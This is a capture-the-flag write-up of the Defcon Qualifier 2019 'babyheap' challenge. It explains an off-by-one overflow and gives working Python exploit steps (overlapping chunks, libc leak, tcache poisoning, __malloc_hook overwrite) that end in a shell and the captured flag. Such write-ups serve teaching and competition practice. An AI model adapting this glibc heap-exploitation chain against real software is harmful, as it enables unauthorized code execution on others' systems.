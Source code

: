 ```yaml
---
title: "Defcon Qual 2019 - Babyheap"
description: "Defcon Qual CTF 2019 babyheap challenge writeup"
pubDate: "May 14 2019"
tags: ["ctf-writeup", "pwn", "heap"]
---
```


## intro

So, we get a heap pwn running with glibc 2.29 :0. Yes, this version of glibc already has the juicy tcache and introduce some mitigation (no simple double free, etc.).

Running this binary,

    -----Yet Another Babyheap!-----
    [M]alloc
    [F]ree
    [S]how
    [E]xit
    ------------------------
    Command:
    >

1.  `[M]alloc`, basically create chunk with 2 type of size 0xF8 and 0x178. Any size lower than that are set to the higher bound. So, for example, if you try to create chunk with size of 1, you’ll get `malloc(0xF8)` and chunk size of 0xF9 you’ll get `malloc(0x178)`.
2.  `[F]ree`, `memset(content, 0, chunk_request_size)` then `free()`, pointer also get NULLed at the end. So, no UaF i guess?
3.  `[S]how`, print the content of chunk.
4.  `[E]xit`, exit, ofc.

## off-by-one

In `[M]alloc`, user input to fill content handled like this,

```c
  read(0, &buf, 1);
  pos = 0;
  while (buf != '\n' && buf) {
    (*content)[pos] = buf;
    read(0, &buf, 1);
    if (chunk_request_size == pos++)
      return 0;
  }
```

see it? user input terminated when pos reached `chunk_request_size`, instead of `chunk_request_size-1`. This is clearly off-by-one.

## attack

We already have off-by-one in creating chunk, we can create an overlapping chunk with overwriting next chunk metadata. Then, use it to corrupt the tcache free list in overlapping chunks. Before all of that, we need to find libc leak, How? Lets start it with initialize the chunks we need.

```py
malloc(0x178, '0' * 0x178)
malloc(0xf8, '1' * 0xf8)
malloc(1, '2')
malloc(0x178, '3' * 0x178)
malloc(0x178, '4' * 0x178)
malloc(0xF8, '5' * 0xF8)
malloc(0x178, '6' * 0x178)
malloc(0x178, '7' * 0x178)
malloc(0x178, '8' * 0x178)
```

The idea is to corrupt chunk metadata (chunk size) to something larger than tcache could handle, for that we need to create overlapping chunk first.

```py
# setup overlapping chunk
free(0)
# overwrite metadata of chunk 1
malloc(0x178, '0' * 0x178 + '\x81')
```

Since we have overwritten the size of chunk 1, if we free this chunk, instead of going to `tcache[0x100]` it’ll go to `tcache[0x180]`. Because of that, if we create another request for `malloc(0x178)`, it’ll go directly to chunk 1 where the size should be 0x100 and overlapping with chunk 2. The content of chunk 1 can directly overwrite chunk 2, thus we will make chunk 2 size large enough and still pointing to a “valid” chunk.

```py
free(1)
# now chunk 1 and 2 are overlapping (after another
# malloc(0x178) request) since we want a libc leak,
# we need something large enough to pass tcache (> 0x500)
# and also the size need to point another chunk to
# pass some check, here I set the size to 0x681.
malloc(0x178, '1' * 0xf8 + p16(0x681))
```

Now, when chunk 2 gets freed, instead going to tcache bins, It’ll go to unsorted bins and get the fd bk populated (libc leak here). Also, remember that `[F]ree` clears the content for `chunk_request_size`? This is why I created chunk 2 with size of 1 (`malloc(1, '2'`), instead of the whole content get cleared, it’ll only clear the first byte of content/chunk.

```py
# Instead of goind to tcache bin free list, chunk2
# will goes to unsorted bin and we will get a nice
# libc leak
free(2)
malloc(1, 'A')

leak = show(2)
leak = u64(leak.ljust(8, '\x00'))

# main_arena trick
libc.address = (leak - libc.symbols['__malloc_hook']) & 0xFFFFFFFFFFFFF000

print 'LIBC', hex(libc.address)
```

After this we only need to do tcache poisoning, with creating another overlapping chunks first,

```py
# setting up another overlapping chunks
free(4)
malloc(0x178, '4' * 0x178 + '\x81')
free(6)
free(5)
```

then, do the tcache poisoning,

```py
# tcache poisoning
malloc(0x178, '5' * 0x100 +
	p64(libc.symbols['__malloc_hook']).replace('\x00', ''))
malloc(0x178, 'a')

# overwrite __malloc_hook with one_gadge
malloc(0x178,
	p64(libc.address + 0x106ef8).replace('\x00', ''))
free(8)
```

profit

```py
r.sendlineafter('> ', 'M') # trigger malloc
r.sendlineafter('> ', '1') # trigger malloc
```

## flaggg

```sh
λ › REMOTE=1 python2 solve.py
[+] Opening connection to babyheap.quals2019.oooverflow.io on port 5000: Done
LIBC 0x7f51a413b000
[*] Switching to interactive mode
$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
$ cat /flag
OOO{4_b4byh34p_h45_nOOO_n4m3}
$
[*] Interrupted
[*] Closed connection to babyheap.quals2019.oooverflow.io port 5000
```
